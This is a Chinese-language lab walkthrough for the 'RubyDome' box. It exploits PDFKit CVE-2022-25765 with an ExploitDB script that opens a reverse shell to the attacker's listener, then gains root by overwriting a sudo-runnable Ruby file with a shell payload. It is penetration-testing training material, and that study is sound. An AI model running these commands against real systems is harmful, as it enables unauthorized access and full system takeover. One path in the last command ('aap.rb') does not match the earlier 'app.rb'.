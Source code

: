 ```yaml
---
description: Linux - Easy：PDFKit
---
```


# ✔️ RubyDome

## 建立立足点

### 信息枚举

使用Nmap进行开放端口扫描，获得2个开放端口：22和3000

<figure><img src="../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例的“兔子洞”：

<img src="../.gitbook/assets/3 (2).png" alt="" data-size="original">
{% endhint %}

查看3000端口上的Web页面，发现目标是一个可将HTML页面转换为PDF格式的应用：

<figure><img src="../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

尝试随意输入一个URL（http://127.0.0.1），来触发目标应用抛出错误信息，以进一步收集信息：

<figure><img src="../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

查找关于PDFKit相关的已知、公开漏洞，得到：

<figure><img src="../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

本例中，虽为从错误信息中看到任何版本号，但是从初步查找到的公开漏洞的描述信息可得知CVE-2022-25765是针对PDFKit 0.0.0到0.8.7.2版本都适用的，因此可以尝试。

<figure><img src="../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```bash
// 在ExploitDB中查找利用脚本：
searchsploit PDFKit
// 下载利用脚本到Kali本地：
searchsploit -m 51293.py .
```

<figure><img src="../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

查看该脚本的使用方法，供后续构造命令：

<figure><img src="../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 参数 -s：设置Kali本机IP和监听的端口
* 参数 -w：设置目标地址和路径（查看目标页面的HTML源码）
* 参数 -p：设置POST的具体参数（查看目标页面的HTML源码）

<figure><img src="../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

```bash
// 在Kali上监听端口：
nc -lvnp 4444
// 在Kali中运行利用脚本：
python3 51293.py -s 192.168.45.234 4444 -w http://192.168.225.22:3000/pdf -p url
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息枚举

针对本机进行初步的信息枚举：

```bash
// 简单枚举，若无收获就换工具：
uname -a
find / -perm -u=s -type f 2>/dev/null
sudo -l
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

通过查找目标系统上所有由root用户拥有且设置了SUID位的普通文件，和查看当前用户andrew不需要密码就可以执行的文件/命令，可得出：**当前用户可以在无需密码的情况下，使用sudo ruby来运行app.rb文件**

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在GTFOBINS 发现可以使用 ruby​​ 获取 shell。

### 漏洞利用

进入到app.rb文件所在的文件夹，查看其权限，可得知当前用户andrew有权写入文件内容：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

在写入payload之前，先备份一个app.rb.bak文件，再写入payload：

```bash
// 备份:
cp app.rb app.rb.bak
// 写入payload:
echo 'exec "/bin/sh"' > app.rb
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

```bash
// 用sudo和ruby运行已重新修改的app.rb文件：
sudo /usr/bin/ruby /home/andrew/app/aap.rb
```

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

